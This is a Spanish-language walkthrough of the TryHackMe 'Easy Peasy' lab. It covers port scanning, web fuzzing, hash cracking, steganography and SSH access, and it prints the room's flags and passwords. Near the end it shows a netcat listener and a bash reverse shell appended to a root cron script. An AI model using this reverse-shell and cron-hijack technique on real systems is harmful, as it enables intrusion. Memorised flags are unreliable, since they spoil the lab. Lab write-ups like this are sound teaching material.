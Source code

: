 # Easy Peasy

## Mapeo de puertos

Ejecutamos un escaneo a todos los puertos con`nmap`sobre la máquina víctima.

```
sudo nmap -sCV -p- 10.10.220.165
```

Visualizamos tres puertos abiertos:
- El puerto 80 del protocolo HTTP con un sitio web nginx.
- El puerto 6498 de SSH.
- El puerto 65524 que es un servidor de Apache por HTTP.

![](images/image.png)


## Explotación web

Para obtener más directorios del sitio web de la máquina, vamos a utilizar`dirbuster`para hacer fuzzing:

![](images/image-1.png)

![](images/image-2.png)
![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-2.png]]

Encontramos un directorio llamado`/hidden/`:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-3.png]]

Y también`/hidden/whatever`:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-4.png]]

Mirando el código fuente, descubrimos mensaje codificado en Base64 aparentemente:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-5.png]]

Usamos Cyberchef para decodificarlo y obtenemos la primera flag:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-6.png]]

```
flag{f1rs7_fl4g}
```

También usamos`gobuster`para ver si obtenemos más resultados:

```
gobuster dir -u http://10.10.220.165 -x html,txt,php,js,py -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

Hay un`robots.txt`pero no tiene información relevante.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-7.png]]

Accedemos a la página por el puerto 65524 y comprobamos su`robots.txt`:

```
http://10.10.220.165:65524/robots.txt
```

Hay un hash que podemos crackear.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-8.png]]

```
a18672860d0510e5ab6699730763b250
```

Pasamos el hash por`md5hashing`y obtenemos la segunda flag:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-9.png]]

```
flag{1m_s3c0nd_fl4g}
```

La tercera flag la tenemos en el directorio principal del puerto en que está apache:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-10.png]]

```
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```

Inspeccionamos el código fuente también y descubrimos lo siguiente:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-11.png]]

Decodificamos con Cyberchef en Base62:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-12.png]]

Entramos al directorio decodificado:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-13.png]]

Hay un hash oculto.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-14.png]]

Lo crackeamos con John y el`.txt`que nos proporcionan en el reto.

```
john --wordlist=easypeasy_1596838725703.txt --format=gost hash.txt  
```

La contraseña es`mypasswordforthatjob`.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-15.png]]

Usamos`steghide`sobre la imagen de matrix ya que oculta un mensaje:

```
steghide extract -sf binarycodepixabay.jpg
```

La passphrase es la contraseña que obtuvimos antes.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-16.png]]

Analizamos el mensaje obtenido:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-17.png]]

Pasamos el código binario a ASCII

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-18.png]]

```
iconvertedmypasswordtobinary
```
## Escalada de privilegios

Finalmente, podemos entrar por SSH con el usuario y la contraseña obtenidos.

```
ssh boring@10.10.220.165 -p 6498
```

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-19.png]]

Encontramos la flag pero parece que está invertida o algo así.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-20.png]]

Lo decodificamos con el cifrado del Cesar y obtenemos la flag.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-21.png]]

```
flag{n0wits33msn0rm4l}
```

Inspeccionamos los jobs de crontab y descubrimos el siguiente script programado:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-22.png]]

Nos desplazamos a la localización y lo vemos:

```
cd /var/www/
```

Solo puede ser ejecutado como root.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-23.png]]

 Abrimos un puerto en escucha con`netcat`.
 
```
nc -nlvp 9001
```

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-24.png]]

Introducimos la siguiente reverse shell:

```
echo "bash -i >& /dev/tcp/10.10.220.165/9001 0>&1" >> .mysecretcronjob.sh
```

Obtenemos la flag del root:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-25.png]]

```
flag{63a9f0ea7bb98050796b649e85481845}
```


















